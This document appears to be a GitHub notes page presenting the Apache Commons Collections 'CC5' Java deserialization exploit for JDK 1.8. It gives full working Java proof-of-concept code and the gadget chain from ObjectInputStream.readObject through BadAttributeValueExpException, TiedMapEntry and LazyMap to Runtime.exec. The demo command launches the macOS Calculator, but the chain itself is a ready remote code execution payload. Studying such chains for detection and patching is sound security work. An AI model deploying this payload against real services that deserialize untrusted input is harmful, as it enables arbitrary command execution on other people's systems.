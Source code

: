 **CC5 payload， JDK1.8**

```java
public class CC5 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, IllegalAccessException,
            InvocationTargetException, InstantiationException, IOException, NoSuchFieldException {
        Transformer[] realPoc  = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})};
        ChainedTransformer fakeChain = new ChainedTransformer(new Transformer[]{ new ConstantTransformer("random")});

        Map innerMap = new HashMap();
        LazyMap mapDemo = (LazyMap) LazyMap.decorate(innerMap, fakeChain);
        TiedMapEntry rceDemo = new TiedMapEntry(mapDemo, "random");
        BadAttributeValueExpException finaldemo = new BadAttributeValueExpException("random");
        Field valDemo = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        valDemo.setAccessible(true);
        valDemo.set(finaldemo, rceDemo);

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(fakeChain, realPoc);

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(finaldemo);
        oos.close();

        System.out.println(bos);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();
    }
}
```

利用链

```txt
	Gadget chain:
        ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
```
